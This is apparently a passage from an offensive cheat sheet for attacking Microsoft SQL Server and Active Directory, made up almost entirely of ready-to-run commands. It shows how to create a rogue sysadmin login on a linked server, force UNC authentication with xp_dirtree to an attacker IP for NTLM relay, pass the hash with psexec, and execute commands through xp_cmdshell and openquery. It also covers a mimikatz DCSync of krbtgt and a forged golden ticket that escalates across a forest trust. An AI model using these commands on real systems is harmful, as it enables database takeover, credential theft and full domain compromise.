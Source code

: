 ```sql
EXECUTE AS LOGIN='sa';

use msdb; EXECUTE AS USER='dbo';
```
- Create a new Sysadmin
```sql
exec ('exec sp_addlogin "zys","Passw0rd"') at [sql01];

exec ('exec sp_addsrvrolemember "zys","sysadmin"') at [sql01];
```

- Check link
```sql
select * from master..sysservers;

exec sp_linkedservers
```
- UNC Path Injection

```bash
proxychains python3 impacket/examples/ntlmrelayx.py  --no-http-server -smb2support -t 172.16.221.152 -c

EXEC xp_dirtree '\\192.168.x.y\pwn', 1, 1

proxychains python3 impacket/examples/psexec.py -hashes :a7a662ffa4744b6393261529aa5004ad administrator@172.16.y.z

EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC master.dbo.xp_cmdshell 'whoami';
```
- Command Execution

EXEC
```sql
EXEC master.dbo.xp_cmdshell 'whoami';
```
Openquery (Blind)
```sql
Select * From openquery("reddc", 'select @@servername; exec xp_cmdshell ''ping 192.168.x.y'' ');
```

Check Rpcout
```sql
select srvid,srvname,rpcout from master..sysservers;
```
Enable Rpcout
```sql
exec sp_serveroption 'sql03', 'rpc out', 'true';
```
### Bidirectional Trust Within a Forest

```powershell
mimikatz.exe

lsadump::dcsync /domain:ops.comply.com /user:ops\krbtgt

Get-DomainSID -Domain ops.red.com

Get-DomainSID -Domain red.com

mimikatz.exe "kerberos::golden /user:Administrator /domain:ops.red.com /sid:S-1-5-21-2032401531-514583578-4118054891 /krbtgt:7c7865e6e30e54e8845aad091b0ff447 /sids:S-1-5-21-1135011135-3178090508-3151492220-519 /ptt" "exit"
```
